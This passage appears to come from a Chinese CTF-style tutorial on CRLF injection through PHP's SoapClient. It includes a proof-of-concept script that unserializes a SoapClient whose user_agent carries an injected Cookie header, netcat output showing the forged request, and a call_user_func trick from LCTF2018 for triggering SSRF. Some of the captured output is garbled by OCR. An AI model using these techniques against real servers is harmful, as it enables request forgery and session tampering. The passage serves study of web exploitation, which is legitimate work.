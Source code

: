 ![img](https://img2020.cnblogs.com/blog/1999159/202101/1999159-20210127110321012-1236417106.png)

**CRLF是”回车+换行”（\r\n）的简称。在HTTP协议中，HTTPHeader与HTTPBody是用两个CRLF分隔的，浏览器就是根据这两个CRLF来取出HTTP内容并显示出来。所以，一旦我们能够控制HTTP消息头中的字符，注入一些恶意的换行，这样我们就能注入一些会话Cookie或者HTML代码，所以CRLFInjection又叫HTTPResponseSplitting，简称HRS。**
**简单来说**
**http请求遇到两个\r\n即%0d%0a，会将前半部分当做头部解析，而将剩下的部分当做体，当我们可以控制User-Agent的值时，头部可控，就可以注入crlf实现修改http请求包。**

```php
<?php
$target = "http://localhost:2333";
$options = array(
    "location" => $target,
    "user_agent" => "mochazz\r\nCookie: PHPSESSID=123123\r\n",
    "uri" => "demo"
);
$attack = new SoapClient(null,$options);
$payload = serialize($attack);
unserialize($payload)->ff(); // 调用一个不存在的ff方法，会触发__call方法，发出HTTP请求
?>
```

得到如下

```http
→/home nc - lvp 2333
listening on [any] 2333
connect to [127.0.0.1] from localhost [127.0.0.1] 42022
POST / HTTP/1.1
Host: localhost :2333
Connection: Keep-Alive
User -Agent: mochazz
Cookie: PHPSESSID= 123123    

Content-Type: text/xml; charset=utf-8
SOAPAction: "demo#a"
Content-Length: 365

<?xml version="1.0" encoding="UTF-8"?> 
<S0AP- ENV:Envelope xmlns: S0AP- ENV= "http:/ /schemas . xmlsoap . org/ soap/envelope/" xmlns:ns1="demo" xmIns :xsd="http:/ /www .w3.org/
2001/XMLSchema" xmIns : SOAP -ENC="http://schemas .xmlsoap .or g/soap/ encoding/" SOAP- ENV:encodingStyle="http://schemas .xmlsoap.og/ soap/ encoding/"><S0AP - ENV : Body><ns1 :a/></S0AP - ENV: Body></S0AP ENV: Envelope>
```

### 三. call_user_func

**call_user_func函数中的参数可以是一个数组，数组中第一个元素为类名，第二个元素为类方法。**

先传入extract()，将\$b覆盖成回调函数，这样题目中的 **call_user_func($b,$a)** 就可以变成 **call_user_func(‘call_user_func’,array(‘SoapClient’,’welcome_to_the_lctf2018’))** ，即调用 **SoapClient** 类不存在的 **welcome_to_the_lctf2018** 方法，从而触发 **__call** 方法发起 **soap** 请求进行 **SSRF** 。
